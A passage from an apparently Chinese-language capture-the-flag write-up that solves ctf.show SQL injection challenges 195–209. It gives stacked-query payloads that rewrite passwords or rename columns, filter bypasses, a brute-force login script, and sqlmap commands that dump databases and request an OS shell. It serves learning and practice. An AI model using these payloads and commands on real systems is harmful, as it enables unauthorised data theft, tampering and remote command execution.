>     $ret['msg']='用户名非法';
>     die(json_encode($ret));
>   }
> ```

把常见的查询语句过滤了，所以来个堆叠 `update` 更新数据操作。

payload:

把所有密码都更改为 1

```
0x61646d696e;update`ctfshow_user`set`pass`=1
```

用十六进制只因为，这里的查询语句没有引号包裹

```
$sql = "select pass from ctfshow_user where username = {$username};";
```

还可以把用户名也全部跟改为1，就不用十六进制了

```
1;update`ctfshow_user`set`username`=1
```

## web196~限制长度

> ```
> if(preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|\'|\"|select|union|or|and|\x26|\x7c|file|into/i', $username)){
>     $ret['msg']='用户名非法';
>      die(json_encode($ret));
>   }
> ```
>
> ```
>   if(strlen($username)>16){
>     $ret['msg']='用户名不能超过16个字符';
>     die(json_encode($ret));
>   }
> ```

限制了用户名长度，十六个长度是不够更改数据的。

但是偶然试了一下select多查一个数据，结果成功登陆了。但是这里题目明明是过滤的。。。

payload:

```
username:    1;select(1);
pass:        1
```

## web197-198~alert修改字段,show tables;

> ```
> if('/\*|\#|\-|\x23|\'|\"|union|or|and|\x26|\x7c|file|into|select|update|set//i', $username)){
>     $ret['msg']='用户名非法';
>     die(json_encode($ret));
>   }
> ```

`update`不能使用了。

想插入数据但是过滤了`into`

现在没有长度限制，没有过滤空格，不能`select`、`update`、`insert` 

那就只能`alter`了。

* ALTER TABLE 语句用于在已有的表中添加、修改或删除列。

那我们可以利用`alter` 修改字段名，把 `id`  和  `pass` 对调。

```
username:   0;alter table ctfshow_user change column `pass` `a` varchar(255);alter table ctfshow_user change column `id` `pass` varchar(255);alter table ctfshow_user change column `a` `id` varchar(255)
pass:       数字自增测试
# 注意用户名第一次填 payload,之后就只填 0 
```

这里为甚么用户名使用0，因为数据表里刚开始测试时候，用户名为0 时，密码错误，说明有这个用户名。

写个脚本：

```python
# Author: yanmie

import requests

url = "http://9c929736-5b1e-4098-a346-b84a2d3e3509.chall.ctf.show/api/"
i = 0

while True:
    i += 1
    if i==1:
        data = {
            "username" : "0;alter table ctfshow_user change column `pass` `a` varchar(255);alter table ctfshow_user change column `id` `pass` varchar(255);alter table ctfshow_user change column `a` `id` varchar(255)",
            "password" : 0,
        }
        response = requests.post(url=url,data=data)
    else:
        data = {
            "username" : 0,
            "password" : {i}
        }
        response = requests.post(url=url,data=data)
        if "登陆成功" in response.json()['msg']:
            print(response.text)
            break
```

另一种解法：

```
username:    0;show tables;
pass:        ctfshow_user
```

## web198

> ```
>  if('/\*|\#|\-|\x23|\'|\"|union|or|and|\x26|\x7c|file|into|select|update|set|create|drop/i', $username)){
>     $ret['msg']='用户名非法';
>     die(json_encode($ret));
>   }
> ```

## web199-200~show tables;

> ```
> if('/\*|\#|\-|\x23|\'|\"|union|or|and|\x26|\x7c|file|into|select|update|set|create|drop|\(/i', $username)){
>     $ret['msg']='用户名非法';
>     die(json_encode($ret));
>   }
> ```

过滤了 `(` ，所以不能用 alter 了，

但是还能直接

```
username:   0;show tables
password:   ctfshow_user
```

# 五、sqlmap的使用

## web201

> [ sqlmap最新版下载](https://ctfshow.lanzoui.com/i4wlziac1de)
>
>  使用--user-agent 指定agent
>
>  使用--referer 绕过referer检查

判断注入点：

```python
python2 sqlmap.py -u "http://0f81bbb3-0eb7-42fe-b6ac-818d9ee151d1.chall.ctf.show/api/?id=1" --referer="ctf.show"
```

爆数据库

```python
python2 sqlmap.py -u "http://0f81bbb3-0eb7-42fe-b6ac-818d9ee151d1.chall.ctf.show/api/?id=1" --referer="ctf.show" --dbs --batch
```

得到

```
available databases [5]:
[*] ctfshow_web
[*] information_schema
[*] mysql
[*] performance_schema
[*] test
```

爆表名：

```python2
python2 sqlmap.py -u "http://0f81bbb3-0eb7-42fe-b6ac-818d9ee151d1.chall.ctf.show/api/?id=1" --referer="ctf.show" -D ctfshow_web --tables --batch
```

得到

````
Database: ctfshow_web
[1 table]
+--------------+
| ctfshow_user |
+--------------+
````

爆字段：

```python
python2 sqlmap.py -u "http://0f81bbb3-0eb7-42fe-b6ac-818d9ee151d1.chall.ctf.show/api/?id=1" --referer="ctf.show" -D ctfshow_web -T ctfshow_user --columns --batch
```

爆内容

```python
python2 sqlmap.py -u "http://0f81bbb3-0eb7-42fe-b6ac-818d9ee151d1.chall.ctf.show/api/?id=1" --referer="ctf.show" -D ctfshow_web -T ctfshow_user -C id,pass,username --dump --batch
```

得到 shell

```
python2 sqlmap.py -u "http://0f81bbb3-0eb7-42fe-b6ac-818d9ee151d1.chall.ctf.show/api/?id=1" --referer="ctf.show" --os-shell
```

## web202~--data参数

>  使用--data 调整sqlmap的请求方式

post方式提交参数

```python
python2 sqlmap.py -u "http://e815b8f2-5a11-4998-8cb9-aa806fb67550.chall.ctf.show/api/" --data="id=1" --referer="ctf.show" --dbs --batch

python2 sqlmap.py -u "http://e815b8f2-5a11-4998-8cb9-aa806fb67550.chall.ctf.show/api/" --data="id=1" --referer="ctf.show" -D ctfshow_web -T ctfshow_user --dump --batch
```

## web203--put参数

> 使用--method 调整sqlmap的请求方式

```python
python2 sqlmap.py -u "http://ca0824d5-f358-4494-b5ee-0f0ad93fdf39.chall.ctf.show/api/index.php" --method=PUT --data="id=1" --referer=ctf.show --headers="Content-Type: text/plain" --dbms=mysql -D ctfshow_web -T ctfshow_user --dump --batch
```

## web204~--cookie参数

> 使用--cookie 提交cookie数据

```python
python2 sqlmap.py -u "http://c1338d3e-26fa-49c9-b2aa-583f5fe1418f.chall.ctf.show/api/index.php" --method=PUT --data="id=1" --referer=ctf.show  --dbms=mysql dbs=ctfshow_web -T ctfshow_user -C pass --dump --headers="Content-Type: text/plain" --cookie="PHPSESSID=beu7iuepljde5gf9frge7542of;" --batch
```

## web205~api鉴权

> api调用需要鉴权

[](https://imgchr.com/i/sOn0js)

* --safe-url 设置在测试目标地址前访问的安全链接
*  --safe-freq 设置两次注入测试前访问安全链接的次数

不访问的话

```
{"code":0,"msg":"api鉴权失败","count":1,"data":[[]]}
```


```python
python2 sqlmap.py -u "http://ae19532d-121c-4048-9902-3f93f0028c40.chall.ctf.show/api/index.php" --method=PUT --data="id=1" --referer=ctf.show --dbms=mysql dbs=ctfshow_web -T ctfshow_flax -C flagx --dump  --headers="Content-Type: text/plain" --safe-url="http://ae19532d-121c-4048-9902-3f93f0028c40.chall.ctf.show/api/getToken.php" --safe-freq=1 --batch
```

## web206

>  sql需要闭合
>
> ```
> $sql = "select id,username,pass from ctfshow_user where id = ('".$id."') limit 0,1;";
> ```

这里 sql 语句闭合方式变化了，

* `--prefix=PREFIX` –> 攻击载荷的前缀
* `--suffix=SUFFIX` –> 攻击载荷的后缀

其实不使用，sqlmap也可以判断出来。

```python
python2 sqlmap.py -u "http://a3eb3756-01fe-4ca1-a236-21d47920bd25.chall.ctf.show/api/index.php" --method=PUT --data="id=1" --referer=ctf.show --dbms=mysql -D "ctfshow_web" -T "ctfshow_flaxc" -C "flagv" --dump  --headers="Content-Type: text/plain" --safe-url=http://a3eb3756-01fe-4ca1-a236-21d47920bd25.chall.ctf.show/api/getToken.php --safe-freq=1 --batch
```

## web207~tamper脚本过空格

> --tamper 的初体验

> ```
>  function waf($str){
>    return preg_match('/ /', $str);
>   }
> ```

直接使用sqlmap自带 tamper 脚本，绕过空格过滤

```python
python2 sqlmap.py -u "http://9ebc2f80-ebe8-4ac2-8b2c-0283b6fce95b.chall.ctf.show/api/index.php" --method=PUT --data="id=1" --referer=ctf.show --headers="Content-Type:text/plain" --safe-url="http://9ebc2f80-ebe8-4ac2-8b2c-0283b6fce95b.chall.ctf.show/api/getToken.php" --safe-freq=1 --dbs --tamper=space2comment --batch
```

```python
python2 sqlmap.py -u "http://2fe69805-4831-45bb-b61c-a146cd3e448b.chall.ctf.show/api/index.php" --method=PUT --data="id=1" --referer=ctf.show --headers="Content-Type:text/plain" --safe-url="http://2fe69805-4831-45bb-b61c-a146cd3e448b.chall.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_flaxca --dump --tamper=space2comment --batch
```

## web208

> --tamper 的2体验
>
> 查询语句
>
> ```
> //拼接sql语句查找指定ID用户
> $sql = "select id,username,pass from ctfshow_user where id = ('".$id."') limit 0,1;";
>       
> ```
>
> 返回逻辑
>
> ```
> //对传入的参数进行了过滤
> // $id = str_replace('select', '', $id);
>   function waf($str){
>    return preg_match('/ /', $str);
>   }
>       
> ```

过滤大小写空格，所以直接上题tamper就可以。

```python
python2 sqlmap.py -u "http://9ebc2f80-ebe8-4ac2-8b2c-0283b6fce95b.chall.ctf.show/api/index.php" --method=PUT --data="id=1" --referer=ctf.show --headers="Content-Type:text/plain" --safe-url="http://9ebc2f80-ebe8-4ac2-8b2c-0283b6fce95b.chall.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web --dump  --tamper=space2comment --batch
```

## web209

> 查询语句
>
> ```
> //拼接sql语句查找指定ID用户
> $sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 0,1;";
>       
> ```
>
> 返回逻辑
>
> ```
> //对传入的参数进行了过滤
>   function waf($str){
>    //TODO 未完工
>    return preg_match('/ |\*|\=/', $str);
>   }
>       
> ```

过滤空格，* ，=  .

还是自己学写 tamper 脚本吧，

[教程点这里](https://blog.csdn.net/whatday/article/details/62059263)

```python
python2 sqlmap.py -u "http://9c4ee82f-afec-4a30-88b5-a0dab654e0ab.chall.ctf.show/api/index.php" --method=PUT --data="id=1" --referer=ctf.show --headers="Content-Type:text/plain" --safe-url="http://9c4ee82f-afec-4a30-88b5-a0dab654e0ab.chall.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web --dump  --tamper=space2comment --batch
```


https://blog.csdn.net/solitudi/article/details/110144623

https://yq1ng.github.io/z_post/CTFSHOW-WEB%E5%85%A5%E9%97%A8-Ttick%E6%80%BB%E7%BB%93/#more

